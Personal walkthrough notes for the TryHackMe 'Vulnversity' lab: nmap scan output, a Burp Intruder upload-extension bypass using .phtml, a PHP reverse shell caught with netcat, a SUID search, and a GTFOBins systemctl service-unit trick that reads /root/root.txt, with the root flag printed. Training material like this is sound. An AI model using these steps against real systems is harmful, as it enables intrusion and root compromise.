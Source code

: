 #suid

### Vulnversity - Tryhackme - Getting Root flag only

- Initial Recon
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -T4 10.10.160.7                           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 05:43 EDT
Nmap scan report for 10.10.160.7
Host is up (0.27s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a4ffcb8c8761cb5851cacb286411c5a (RSA)
|   256 ac9dec44610c28850088e968e9d0cb3d (ECDSA)
|_  256 3050cb705a865722cb52d93634dca558 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/18%OT=21%CT=1%CU=42338%PV=Y%DS=2%DC=T%G=Y%TM=64DF3D9
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M509ST11NW6%O2=M509ST11NW6%O
OS:3=M509NNT11NW6%O4=M509ST11NW6%O5=M509ST11NW6%O6=M509ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-18T09:44:47
|_  start_date: N/A
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-08-18T05:44:46-04:00

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   288.75 ms 10.18.0.1
2   292.44 ms 10.10.160.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.83 seconds

~~~

- Gobuster on port 3333 - Found /internal directory have file upload page. 
- Upload shell.php file - Unsuccessful result. 
- Use burpsuite #burpsuite to find out which php version is accepted - Intercept the traffic - forward to the intruder - in position clear $ and add $ on upload file extension - in payload seetings remove current settings and add 'php3, phtml, php4, php5, php6' - in setting, Grep - Match add 'Extension not allowed' obtained from the repeater, in redirection select 'always' - Start the attack. 
![[Pasted image 20230818185424.png]]
- Phtml extension can be uploaded, change shell.php extension to phtml, upload it, check on /upload page, start listener and open uploaded file. Reverse shell obtained. If connection get lost then disable firewall with 'sudo ufw disable' #firewall 
~~~bash
──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.4.132] from (UNKNOWN) [10.10.160.7] 33220
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:43:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

- Find the SUID permission files
~~~bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
~~~

- Find out systemctl have the SUID privilege escalation in GTFObins. Copied code and change it as per needed. 

```
# Before 
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
```
# After
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

- Run command one by one, obtained root. 
~~~bash
$ sudo install -m =xs $(which systemctl) .
sudo: no tty present and no askpass program specified
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
$ 
~~~
